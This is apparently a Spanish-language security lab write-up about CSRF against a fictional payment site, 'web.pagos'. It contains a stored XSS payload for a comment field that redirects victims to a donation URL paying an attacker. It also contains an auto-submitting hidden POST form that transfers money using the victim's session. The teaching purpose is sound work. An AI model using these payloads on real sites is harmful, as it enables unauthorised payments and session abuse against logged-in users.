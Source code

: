 
Vemos que si enviamos la consulta y nos vamos a la lista de jugadores nos sale el botón:   

![b642c34be514fdaeeae69998e432fb85.png](img/92fe90791d904a44a04eefb8014e43b5.png)

## - b)

| Pregunta|Respuesta|
|-|-|
|En el campo|Comentario|
|Introduzco|\<script>window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";\</script>|

## - c)

Para que esto funcione el usuario tendría que darle al botón malicioso o cargar el comentario malicioso y a parte tener que estar registrasdo en web.pagos debido a que la solicitud incluirá una cookie de la sesión usuario  para proceder el pago. 

## - d)

Aunque POST sea más seguro que GET para enviar los datos, esto no caparia del todo que atacantes pudiesen hacer un ataque de CSRF.  Esto se debe a que los atacantes podrían crear formularios con código malicioso el cuál envie datos a través del POST a web.pages sin que los usuarios se den cuenta. 

```html
<form id="formulario" action="http://web.pagos/donate.php" method="POST">
  <input type="hidden" name="amount" value="100">
  <input type="hidden" name="receiver" value="ataque">
</form>
<script>
  document.getElementById('formulario').submit();
</script>
```
